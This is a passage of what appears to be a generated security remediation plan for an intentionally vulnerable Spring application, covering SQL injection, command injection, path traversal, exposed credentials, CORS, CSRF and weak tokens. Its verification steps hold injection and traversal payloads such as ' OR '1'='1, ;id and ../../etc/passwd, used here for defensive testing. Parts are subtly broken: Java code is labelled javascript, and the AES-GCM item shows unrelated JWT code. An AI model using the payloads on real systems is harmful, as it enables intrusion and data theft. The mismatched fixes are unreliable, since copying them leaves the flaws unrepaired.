String sql = "select ... where username = '" + username + "' and password = '" + password + "'";

// After — use parameterized query identical to authenticate():
try (PreparedStatement stmt = conn.prepareStatement(
        "select id, username, password, role from legacy_users where username = ? and password = ?")) {
    stmt.setString(1, username);
    stmt.setString(2, password);
    // ...
}
```

**Verification:** Send `GET /api/legacy-sqlite/login-raw?username=`%27+OR+%271%27%3D%271%27--&password=x - the fixed endpoint must return HTTP 401 (no user matched) rather than 200 with a user record.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-006"></a>
#### M-006 — Replace string-concatenated native queries with parameterized queries in OrderLookupDao

**Addresses:**

- 🔴 [F-006](#f-006) — SQL Injection (`OrderLookupDao.java:22`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22`

**How:**

1. Replace the raw string concatenation in `findByOwnerEmail()` with a named parameter: use `entityManager.createNativeQuery(`"select o.* from customer_orders o join app_users u on `o.owner_id` = `u.id` where `u.email` = :email order by `o.id`"`, CustomerOrder.class)`.`setParameter("email", email)`.`getResultList()`;
2. Apply the same parameterized pattern to `paidOrders()` and `configuredRegionOrders()` in OrderLookupDao as a hardening measure, even though those use fixed values today (future maintenance risk if the pattern is copied with user input).
3. Add @PreAuthorize("`isAuthenticated()`") to `OrderSearchController.search()` so that even a parameterized query is only callable by authenticated users.
4. Enable Spring Security method-level authorization for all DAO calls by ensuring @EnableMethodSecurity is active (already present in `SecurityConfig.java`) and annotating service/DAO methods appropriately.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22`: it applies **Replace string-concatenated native queries with parameterized queries in OrderLookupDao**. The ordered steps above remain authoritative._

```javascript
// Before (unsafe — string concatenation)
String sql = "select o.* from customer_orders o join app_users u on o.owner_id = u.id where u.email = '" + email + "' order by o.id";
return entityManager.createNativeQuery(sql, CustomerOrder.class).getResultList();

// After (safe — named parameter)
String sql = "select o.* from customer_orders o join app_users u on o.owner_id = u.id where u.email = :email order by o.id";
return entityManager.createNativeQuery(sql, CustomerOrder.class)
    .setParameter("email", email)
    .getResultList();
```

**Verification:** Send `GET /api/orders/search?email=`%27+OR+%271%27%3D%271 and confirm the response is HTTP 400 (parameter rejected) or HTTP 200 with zero results (no data leakage). The injected OR clause must not affect the result set.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-007"></a>
#### M-007 — Eliminate shell interpolation in ToolController by passing arguments as discrete array elements

**Addresses:**

- 🔴 [F-007](#f-007) — OS Command Injection (`ToolController.java:18`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18`

**How:**

1. Replace sh -c string interpolation with a parameterised exec call: pass each argument as a separate element in the String array (e.g. new String[]{"lookup-tool", name}) and use ProcessBuilder with a validated name from an allowlist of known tool identifiers.
2. Validate name against an explicit allowlist before invoking any external process; reject any value that does not match the expected identifier pattern.
3. Drop OS-level privilege: remove USER root from the Dockerfile and run the JVM as a non-root UID (e.g. UID 1000) to limit blast radius.
4. If the lookup functionality only needs to return static results, eliminate the exec call entirely and serve results from an in-memory map.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18`: it applies **Eliminate shell interpolation in ToolController by passing arguments as discrete array elements**. The ordered steps above remain authoritative._

```javascript
// Before (ToolController.java:18): sh -c with string concatenation
Process process = Runtime.getRuntime().exec(new String[]{"sh", "-c", "echo Result for " + name});

// After: ProcessBuilder with allowlist validation
private static final Set<String> ALLOWED_TOOLS = Set.of("dig", "nslookup", "ping");

if (!ALLOWED_TOOLS.contains(name)) {
    throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "Unknown tool");
}
Process process = new ProcessBuilder("lookup-wrapper", name)
    .redirectErrorStream(true)
    .start();
```

**Verification:** Send `GET /api/tools/lookup?name=test`;id; the response must not include the output of the id command and must return HTTP 400 if the name is not on the allowlist.

**Reference:** [CWE-78: Improper Neutralization of Special Elements used in an OS Command (OS Command Injection)](https://cwe.mitre.org/data/definitions/78.html)

---

<a id="m-008"></a>
#### M-008 — Remove the /api/legacy-sqlite/users endpoint and migrate SQLite passwords to bcrypt

**Addresses:**

- 🔴 [F-008](#f-008) — Unauthenticated Endpoint Returns All Users With Cleartext Passwords (`LegacySqliteAuthController.java:50`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:50`

**How:**

1. Delete or gate `GET /api/legacy-sqlite/users` behind an admin-only role - never expose raw user records including credentials to unauthenticated callers.
2. Migrate LegacySqliteUserStore to hash passwords with BCrypt (Spring Security's BCryptPasswordEncoder) instead of storing plaintext. Update `authenticate()` to use `BCrypt.checkpw()`.
3. Remove the password field from LegacyUserResponse and from any API response shape - password material (even hashed) must never be returned in an API response.
4. If the admin metadata endpoint `GET /api/legacy-sqlite/metadata` (returns database file path) is retained, gate it behind authentication to prevent filesystem reconnaissance.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:50`: it applies **Remove the /api/legacy-sqlite/users endpoint and migrate SQLite passwords to bcrypt**. The ordered steps above remain authoritative._

```javascript
// Do NOT include password in the response record:
record LegacyUserResponse(Long id, String username, String role) {
    static LegacyUserResponse from(LegacySqliteUser u) {
        return new LegacyUserResponse(u.id(), u.username(), u.role()); // password omitted
    }
}
```

**Verification:** Issue `GET /api/legacy-sqlite/users` unauthenticated - the fixed endpoint must return HTTP 403 or 404, not a JSON array of users.

**Reference:** [CWE-256](https://cwe.mitre.org/data/definitions/256.html)

---

<a id="m-009"></a>
#### M-009 — Remove the plaintext password recovery from the API response and restrict /credentials to authenticated administrators

**Addresses:**

- 🔴 [F-009](#f-009) — Unprotected Vault Credential Recovery Endpoint Exposes Plaintext Passwords (`CustomCryptoController.java:45`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java:45`

**How:**

1. Remove `"recovered", customCryptoService.recoverPassword(credential.getSecret())` from the response map in `CustomCryptoController.java:45`. Never return plaintext passwords via an API.
2. Add `@PreAuthorize("hasRole('ADMIN')")` to the `credentials()` method. Ensure `@EnableMethodSecurity` is active on SecurityConfig (it already is at line 11).
3. Remove `.requestMatchers("/api/legacy-crypto/**").permitAll()` from SecurityConfig or replace it with `.authenticated()` after confirming no legitimate public use case exists.
4. Replace the XOR cipher with a proper key-management solution (AWS Secrets Manager, HashiCorp Vault) so secrets are never stored as reversible ciphertext in the application database.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java:45`: it applies **Remove the plaintext password recovery from the API response and restrict /credentials to authenticated administrators**. The ordered steps above remain authoritative._

```javascript
// Before — unauthenticated, returns plaintext
@GetMapping("/credentials")
public List<Map<String, String>> credentials() {
    return vaultCredentialRepository.findAll().stream()
        .map(c -> Map.of("username", c.getUsername(),
                         "secret", c.getSecret(),
                         "recovered", customCryptoService.recoverPassword(c.getSecret())))
        .toList();
}

// After — admin-only, no plaintext recovery
@GetMapping("/credentials")
@PreAuthorize("hasRole('ADMIN')")
public List<Map<String, String>> credentials() {
    return vaultCredentialRepository.findAll().stream()
        .map(c -> Map.of("username", c.getUsername()))
        .toList();
}
```

**Verification:** Call `GET /api/legacy-crypto/credentials` with no auth. Before fix: HTTP 200 with a JSON array containing `"recovered":"<plaintext>"` for every credential. After fix: HTTP 401 Unauthorized.

**Reference:** [CWE-312](https://cwe.mitre.org/data/definitions/312.html)

---

<a id="m-010"></a>
#### M-010 — Canonicalize and jail the resolved path inside runtime/documents/ before reading

**Addresses:**

- 🔴 [F-010](#f-010) — Unauthenticated Path Traversal Read (`FileReadController.java:19`)

**Weaknesses addressed:** [W-002](#w-002)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:19`

**How:**

1. Resolve and normalize the full path: Path resolved = `Path.of("runtime/documents/")`.`toAbsolutePath()`.`normalize()`.`resolve(name)`.`normalize()`;
2. Reject the request with 400 if the resolved path does not start with the base directory: if (!`resolved.startsWith(base)`) throw new `ResponseStatusException(HttpStatus.BAD_REQUEST)`;
3. Add authentication to the endpoint: in SecurityConfig, change .`requestMatchers(HttpMethod.GET, "/api/files/read")` from `permitAll()` to .`authenticated()` (or a role guard appropriate to the data classification).
4. Consider returning only file names from a DB-backed registry rather than accepting free-form path parameters.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:19`: it applies **Canonicalize and jail the resolved path inside runtime/documents/ before reading**. The ordered steps above remain authoritative._

```javascript
// Before (FileReadController.java:19):
Path path = Path.of("runtime/documents/" + name);

// After:
Path base = Path.of("runtime/documents/").toAbsolutePath().normalize();
Path resolved = base.resolve(name).normalize();
if (!resolved.startsWith(base)) {
    throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "Invalid file name");
}
Path path = resolved;
```

**Verification:** Send `GET /api/files/read?name=../../etc/passwd` without credentials - expect HTTP 401 (auth gate) or HTTP 400 (path jail). Send `GET /api/files/read?name=../legacy-auth.sqlite` with valid credentials - expect HTTP 400. Confirm no file content leaks in either response body.

**Reference:** [CWE-22: Path Traversal](https://cwe.mitre.org/data/definitions/22.html)

---

<a id="m-011"></a>
#### M-011 — Restrict Actuator endpoints to internal network and require authentication; disable show-values in production

**Addresses:**

- 🔴 [F-011](#f-011) — Actuator Endpoints Publicly Exposed with Full Secret Values (`SecurityConfig.java:33`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:33`

**How:**

1. In SecurityConfig, remove `/actuator/`** from the `permitAll` list and replace it with .`requestMatchers("/actuator/**")`.`hasRole("ACTUATOR_ADMIN")` restricted to an ops-only role.
2. In `application.yml`, set `management.endpoint.env.show`-values: NEVER and `management.endpoint.configprops.show`-values: NEVER to prevent secret value exposure even for authenticated callers.
3. Limit the exposed endpoints to a minimal required set: management.endpoints.web.exposure.include: health,info,metrics - do not use * in production.
4. Bind the management port to the loopback interface (`management.server.port`=8090, `management.server.address`=127.0.0.1) so actuator endpoints are never reachable from the public network.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:33`: it applies **Restrict Actuator endpoints to internal network and require authentication; disable show-values in production**. The ordered steps above remain authoritative._

```javascript
# application.yml — production settings
management:
  endpoints:
    web:
      exposure:
        include: health,info,metrics   # never * in prod
  endpoint:
    env:
      show-values: NEVER              # never ALWAYS in prod
    configprops:
      show-values: NEVER
```

**Verification:** Send `GET /actuator/env` without credentials; the response must be HTTP 401 or HTTP 403. Property values in the env response for an authenticated admin must show [PROTECTED] or be omitted entirely.

**Reference:** [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

---

<a id="m-012"></a>
#### M-012 — Remove hardcoded secrets from Dockerfile and inject at runtime from a secrets manager

**Addresses:**

- 🔴 [F-012](#f-012) — Hardcoded Secrets Baked into Container Image (`Dockerfile:13`) (`Dockerfile:13`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `Dockerfile:13`

**How:**

1. Remove all ENV instructions for secrets (`DB_PASSWORD`, `JWT_SIGNING_KEY`, `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`) from the Dockerfile immediately.
2. Rotate all four exposed credentials: revoke the `AWS_ACCESS_KEY_ID` pair, generate a new `DB_PASSWORD`, and re-issue the `JWT_SIGNING_KEY` from a randomly generated secret.
3. Inject secrets at container startup from a secrets manager (AWS Secrets Manager, HashiCorp Vault, or Kubernetes Secrets mounted as environment variables from a sealed-secret) - never bake them into image layers.
4. Add a pre-commit hook using tools such as detect-secrets or `truffleHog` to block future secret commits to the repository.

_Example implementation in `Dockerfile:13`: it applies **Remove hardcoded secrets from Dockerfile and inject at runtime from a secrets manager**. The ordered steps above remain authoritative._

```javascript
# Before (Dockerfile:13-16): secrets baked into image layers
ENV DB_PASSWORD=fixture-local-admin-token
ENV JWT_SIGNING_KEY=hardcoded-legacy-jwt-secret
ENV AWS_ACCESS_KEY_ID=AKIA**** (20 chars)
ENV AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY

# After: no secrets in Dockerfile; injected at runtime via docker run --env-file or Kubernetes Secret
# docker run --env-file .env.prod ... or
# env:
#   - name: DB_PASSWORD
#     valueFrom:
#       secretKeyRef:
#         name: app-secrets
#         key: db-password
```

**Verification:** Run docker inspect <image> | `grep -i password; the output must contain no plaintext secret values`. Confirm the application starts and connects to the database using a runtime-injected credential.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-013"></a>
#### M-013 — Replace direct JPA entity binding in PUT /api/profile/me with a restricted DTO that excludes role and admin fields

**Addresses:**

- 🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java:44`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44`

**How:**

1. Introduce a `ProfileUpdateRequest` record/DTO containing only the fields a user may change (e.g. `email` and `newPassword`), and replace `@RequestBody AppUser incoming` with `@RequestBody ProfileUpdateRequest incoming`.
2. Remove the `setRole` and `setAdmin` copy blocks (lines 44-47) from the update handler entirely. Role changes must only be performed by admin endpoints with ADMIN role enforcement.
3. If password change is supported, validate strength, require current-password confirmation, and hash in the service layer - never accept a raw `passwordHash` from the client.
4. Add `@JsonIgnore` on `AppUser.role`, `AppUser.admin`, and `AppUser.passwordHash` as a defence-in-depth measure against future direct-binding paths.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44`: it applies **Replace direct JPA entity binding in PUT /api/profile/me with a restricted DTO that excludes role and admin fields**. The ordered steps above remain authoritative._

```javascript
// Before (unsafe direct entity binding):
@PutMapping("/me")
public ResponseEntity<ProfileResponse> update(Authentication auth,
                                              @RequestBody AppUser incoming) {
    // ... copies role, admin, passwordHash from incoming ...
}

// After — restricted DTO, no privilege fields:
public record ProfileUpdateRequest(String email) {}

@PutMapping("/me")
public ResponseEntity<ProfileResponse> update(Authentication auth,
                                              @RequestBody ProfileUpdateRequest req) {
    return appUserRepository.findByUsername(auth.getName())
            .map(current -> {
                if (req.email() != null) current.setEmail(req.email());
                // role and admin are never touched here
                return ResponseEntity.ok(ProfileResponse.from(appUserRepository.save(current)));
            })
            .orElseGet(() -> ResponseEntity.notFound().build());
}
```

**Verification:** Authenticate as user 'alice' (`ROLE_USER`). Send `PUT /api/profile/me` with body `{"role": "ADMIN", "admin": true}`. Reload alice's profile via `GET /api/profile/me`; verify `role` is still `USER` and `admin` is still `false`.

**Reference:** [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes (Mass Assignment)](https://cwe.mitre.org/data/definitions/915.html)

---

<a id="m-014"></a>
#### M-014 — Remove permitAll() for /api/crypto/** and /api/legacy-crypto/** and require authentication or restrict to ADMIN role

**Addresses:**

- 🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java:45`)

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:45`

**How:**

1. In `SecurityConfig.java`, remove lines 45-46 (`.requestMatchers("/api/crypto/**").permitAll()` and `.requestMatchers("/api/legacy-crypto/**").permitAll()`).
2. Replace with `.requestMatchers("/api/crypto/**").authenticated()` and `.requestMatchers("/api/legacy-crypto/**").hasRole("ADMIN")` to ensure only authenticated administrators can access legacy crypto operations.
3. Add `@PreAuthorize("hasRole('ADMIN')")` to CustomCryptoController class-level as a defense-in-depth control, in case the security filter chain is bypassed or reconfigured.
4. Remove the `/api/legacy-crypto/token` endpoint entirely if it serves no production purpose - issuing forge-ready tokens via a public API is not a legitimate operational function.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:45`: it applies **Remove `permitAll()` for /api/crypto/** and /api/legacy-crypto/** and require authentication or restrict to ADMIN role**. The ordered steps above remain authoritative._

```javascript
// Before — explicit permitAll overrides default authenticated()
.requestMatchers("/api/crypto/**").permitAll()        // line 45
.requestMatchers("/api/legacy-crypto/**").permitAll() // line 46

// After — require authenticated session; restrict legacy paths to admins
.requestMatchers("/api/crypto/**").authenticated()
.requestMatchers("/api/legacy-crypto/**").hasRole("ADMIN")
```

**Verification:** Call `GET /api/legacy-crypto/credentials` with no Authorization header or session cookie. Before fix: HTTP 200 with credential JSON. After fix: HTTP 401 Unauthorized (or 302 redirect to `/login` for form-based auth).

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-015"></a>
#### M-015 — Disable H2 console in production and restrict it to localhost in development

**Addresses:**

- 🔴 [F-015](#f-015) — Unauthenticated H2 Console Access (`SecurityConfig.java:32`)

**Weaknesses addressed:** [W-001](#w-001)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32`

**How:**

1. Set `spring.h2.console.enabled: false` in the production `application.yml` (or `application-prod.yml`). The H2 console is only needed during local development and must never reach a deployed environment.
2. Add a Spring profile guard: if local development genuinely requires the console, move `spring.h2.console.enabled: true` to `application-dev.yml` only and ensure the production profile does not include it.
3. Remove the `/h2-console/**` `permitAll()` line (`SecurityConfig.java:32`) from production security config. If a development override is needed, gate it with `@Profile("dev")`.
4. If a management database UI is operationally required, use a tool that supports mutual TLS or IP allowlisting rather than the unauthenticated H2 console.

**Verification:** Deploy to a staging environment with the production profile active. Send `GET /h2-console/` - the response must be HTTP 404 (console disabled) or HTTP 302 to the login page, not the H2 login form.

**Reference:** [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)

---

<a id="m-016"></a>
#### M-016 — Disable the H2 console in production and remove its permitAll SecurityConfig rule

**Addresses:**

- 🔴 [F-016](#f-016) — H2 Database Console Publicly Exposed (`SecurityConfig.java:32`)

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32`

**How:**

1. Set `spring.h2.console.enabled`: false in all non-development profiles (`application-prod.yml`, `application-staging.yml`). Use Spring profiles to ensure the console is only active in the local development profile.
2. Remove the .`requestMatchers("/h2-console/**")`.`permitAll()` rule from SecurityConfig or restrict it to local IPs only when the console must remain active for dev.
3. Replace the H2 in-memory database with a dedicated PostgreSQL or similar production database for non-dev environments to eliminate the H2 attack surface entirely.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32`: it applies **Disable the H2 console in production and remove its permitAll SecurityConfig rule**. The ordered steps above remain authoritative._

```javascript
# application-prod.yml — disable H2 console in production
spring:
  h2:
    console:
      enabled: false  # never true outside local-dev profile
```

**Verification:** In the production profile, send `GET /h2-console/`; the server must return HTTP 404 or 302 to login. Confirm that `spring.h2.console.enabled` is false in the effective configuration via `/actuator/env` (after actuator is secured per 🔴 [F-011](#f-011)).

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

### P2 — This Sprint

<a id="m-017"></a>
#### M-017 — Replace Base64 session token with a cryptographically random opaque token stored server-side

**Addresses:**

- 🟠 [F-017](#f-017) — Base64 Session Token Forgeable for Any User (`HomegrownSessionService.java:21`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/HomegrownSessionService.java:21`

**How:**

1. Replace HomegrownSessionService with a Spring Session–backed or database-backed session store that issues a SecureRandom 128-bit token (`UUID.randomUUID()` or `SecureRandom.nextBytes(16)` hex-encoded) and maps it to a `userId` server-side.
2. Remove the `/api/auth/homegrown-token` issuance endpoint entirely; token issuance must require authentication.
3. Rotate all existing Base64-style tokens immediately upon deployment.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/HomegrownSessionService.java:21`: it applies **Replace Base64 session token with a cryptographically random opaque token stored server-side**. The ordered steps above remain authoritative._

```javascript
// Secure issuance:
String token = HexFormat.of().formatHex(SecureRandom.getInstanceStrong().generateSeed(16));
sessionStore.put(token, userId, Duration.ofHours(1));
return token;

// Secure resolution:
return sessionStore.get(token).flatMap(appUserRepository::findById);
```

**Verification:** Issue `GET /api/legacy-session/orders?token=MQ==` (Base64 of "1") against a deployment of the fixed code - the endpoint must return 401 because the random-token store does not contain that value.

**Reference:** [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)

---

<a id="m-018"></a>
#### M-018 — Replace substring match in CorsPolicyFilter with an explicit origin allowlist

**Addresses:**

- 🟠 [F-018](#f-018) — Permissive CORS Origin Reflection (`CorsPolicyFilter.java:32`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/cors/CorsPolicyFilter.java:32`

**How:**

1. Define an explicit Set<String> of permitted origins loaded from application properties (e.g. `app.cors.allowed`-origins) - one entry per environment (dev, staging, prod).
2. Replace the `isTrustedOrigin` body with a strict `Set.contains()` check and return false for all other strings.
3. Add an integration test that sends Origin: http://evil.example.com and asserts the response does not contain Access-Control-Allow-Origin.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/cors/CorsPolicyFilter.java:32`: it applies **Replace substring match in CorsPolicyFilter with an explicit origin allowlist**. The ordered steps above remain authoritative._

```javascript
// Before (CorsPolicyFilter.java:32): any HTTP origin is trusted
private boolean isTrustedOrigin(String origin) {
    return origin != null && origin.startsWith("http");
}

// After: explicit allowlist from config
private static final Set<String> ALLOWED_ORIGINS = Set.of(
    "https://app.example.com",
    "https://admin.example.com"
);

private boolean isTrustedOrigin(String origin) {
    return origin != null && ALLOWED_ORIGINS.contains(origin);
}
```

**Verification:** Send `OPTIONS /api/orders/search` with Origin: http://evil.example.com; confirm the response body lacks Access-Control-Allow-Origin: http://evil.example.com and lacks Access-Control-Allow-Credentials: true.

**Reference:** [CWE-942: Permissive Cross-domain Policy with Untrusted Domains](https://cwe.mitre.org/data/definitions/942.html)

---

<a id="m-019"></a>
#### M-019 — Re-enable Spring Security CSRF and configure SameSite=Strict on session cookies

**Addresses:**

- 🟠 [F-019](#f-019) — CSRF Protection Disabled Application-Wide (`SecurityConfig.java:28`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:28`

**How:**

1. Remove .`csrf(AbstractHttpConfigurer::disable)` from SecurityConfig. Spring Security CSRF protection is enabled by default and generates a per-session token that must accompany every state-changing request.
2. Include the _csrf hidden field in every HTML form (Spring Security's ThymeleafSecurityDialect or equivalent injects it automatically).
3. Set the session cookie's SameSite attribute to Strict in `application.properties`: server.servlet.session.cookie.same-site=strict and server.servlet.session.cookie.secure=true.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:28`: it applies **Re-enable Spring Security CSRF and configure SameSite=Strict on session cookies**. The ordered steps above remain authoritative._

```javascript
// Remove this line in SecurityConfig:
// .csrf(AbstractHttpConfigurer::disable)

// Thymeleaf form (auto-injects CSRF token when Spring Security CSRF is enabled):
// <input type="hidden" th:name="${_csrf.parameterName}" th:value="${_csrf.token}"/>
```

**Verification:** Submit a `POST /register` request from a different origin without the _csrf parameter - the fixed application must return HTTP 403 Forbidden.

**Reference:** [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)

---

<a id="m-020"></a>
#### M-020 — Use an authenticated cipher (AES-GCM) from a vetted library; never a hand-rolled XOR.

**Addresses:**

- 🟠 [F-020](#f-020) — Hand-rolled XOR / repeating-key cipher (`HomegrownCipher.java:14`)

**Weaknesses addressed:** [W-004](#w-004)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:14`

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:14`: it applies **Use an authenticated cipher (AES-GCM) from a vetted library; never a hand-rolled XOR.**._

```typescript
// jsonwebtoken@9+: pin algorithm whitelist; reject `alg:none`.
jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Submit a token with `alg:none` (no signature) and confirm `jwt.verify()` throws instead of returning the decoded claims.

---

<a id="m-021"></a>
#### M-021 — Replace java.util.Random with java.security.SecureRandom in LegacyTokenService

**Addresses:**

- 🟠 [F-022](#f-022) — Predictable OTP from Non-Cryptographic PRNG (`LegacyTokenService.java:10`)

**Weaknesses addressed:** [W-005](#w-005)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyTokenService.java:10`

**How:**

1. Change `private final Random random = new Random()` to `private final SecureRandom random = new SecureRandom()` in `LegacyTokenService.java`.
2. Verify that SecureRandom is seeded by the JVM's entropy source (default on all modern JDKs) - no explicit seed call needed.
3. Consider using a 6-digit TOTP (RFC 6238) with time-bounded validity instead of a server-generated random code, to add expiry as a second protection.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/LegacyTokenService.java:10`: it applies **Replace `java.util.Random` with `java.security.SecureRandom` in LegacyTokenService**. The ordered steps above remain authoritative._

```javascript
// Before — predictable LCG
private final Random random = new Random();
int value = 100000 + random.nextInt(900000);

// After — cryptographically secure PRNG
private final SecureRandom random = new SecureRandom();
int value = 100_000 + random.nextInt(900_000);
```

**Verification:** Record three consecutive `GET /api/crypto/otp` responses. Before fix: seed the `java.util.Random` LCG from these values and predict the fourth response with > 99% accuracy. After fix: SecureRandom output must not be predictable from prior observations.

**Reference:** [CWE-330: Use of Insufficiently Random Values](https://cwe.mitre.org/data/definitions/330.html)

---

<a id="m-022"></a>
#### M-022 — Sanitize the upload filename and verify the resolved write path stays within the upload directory

**Addresses:**

- 🟠 [F-023](#f-023) — Path Traversal Write via Unsanitized Upload Filename (`BusinessFileStorage.java:23`)

**Weaknesses addressed:** [W-002](#w-002)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:23`

**How:**

1. Strip all path components from the filename: String `safeName` = `Path.of(fileName)`.`getFileName()`.`toString()`;
2. After resolving the target path, verify containment: Path target = `directory.resolve(safeName)`.`normalize()`; if (!target.`startsWith`(`directory.toAbsolutePath()`.`normalize()`)) throw new `IOException("Invalid filename")`;
3. Additionally reject filenames with null bytes, overly long names (> 255 chars), and dangerous extensions (see TH-07 remediation for extension allowlist).
4. Consider generating a UUID-based server-side filename and storing the original name only in the database record.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:23`: it applies **Sanitize the upload filename and verify the resolved write path stays within the upload directory**. The ordered steps above remain authoritative._

```javascript
// Before (BusinessFileStorage.java:17,23):
String fileName = file.getOriginalFilename();
...
Path target = directory.resolve(fileName);

// After:
String rawName = file.getOriginalFilename();
String fileName = (rawName != null) ? Path.of(rawName).getFileName().toString() : "upload.bin";
Path base = directory.toAbsolutePath().normalize();
Path target = base.resolve(fileName).normalize();
if (!target.startsWith(base)) throw new IOException("Filename escapes upload directory");
```

**Verification:** POST to `/documents` with a multipart file whose filename is ../../../../etc/cron.d/evil - confirm the server returns 400/500 without creating any file outside runtime/uploads/. Verify runtime/uploads/ tree after the request contains no file at the traversed path.

**Reference:** [CWE-22: Path Traversal](https://cwe.mitre.org/data/definitions/22.html)

---

<a id="m-023"></a>
#### M-023 — Remove world-writable permissions and run the JVM as a non-root user in the container

**Addresses:**

- 🟠 [F-024](#f-024) — World-Writable File Permissions on All Container Files (`Dockerfile:26`) (`uploads`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `runtime/uploads`

**How:**

1. Replace chmod -R 777 with least-privilege permissions: RUN useradd -r -u 1001 appuser && chown -R appuser:appuser `/app` && chmod -R 750 `/app` - application files readable only by the app user.
2. Add USER appuser before ENTRYPOINT so the JVM process does not run as root.
3. Create a dedicated writable directory for runtime uploads and documents with permissions 770: RUN mkdir -p `/app/runtime` && chmod 770 `/app/runtime`.
4. Do not include chmod -R 777 in any Dockerfile layer - it negates any file-system isolation provided by user namespaces or seccomp profiles.

_Example implementation in `runtime/uploads`: it applies **Remove world-writable permissions and run the JVM as a non-root user in the container**. The ordered steps above remain authoritative._

```javascript
# Before (Dockerfile:26):
RUN chmod -R 777 /app /app/runtime

# After:
RUN useradd -r -u 1001 appuser \
    && chown -R appuser:appuser /app \
    && chmod -R 750 /app \
    && chmod -R 770 /app/runtime
USER appuser
```

**Verification:** After rebuild, exec into the container as a non-app user (docker exec -u nobody ...) and attempt to write to `/app/target/`*.jar - confirm Permission denied. Verify docker inspect shows the process UID is 1001, not 0.

**Reference:** [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)

---

<a id="m-024"></a>
#### M-024 — Harden DocumentBuilderFactory in XmlPreviewController to disable external entity processing

**Addresses:**

- 🟠 [F-025](#f-025) — XML External Entity Injection (`XmlPreviewController.java:22`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:22`

**How:**

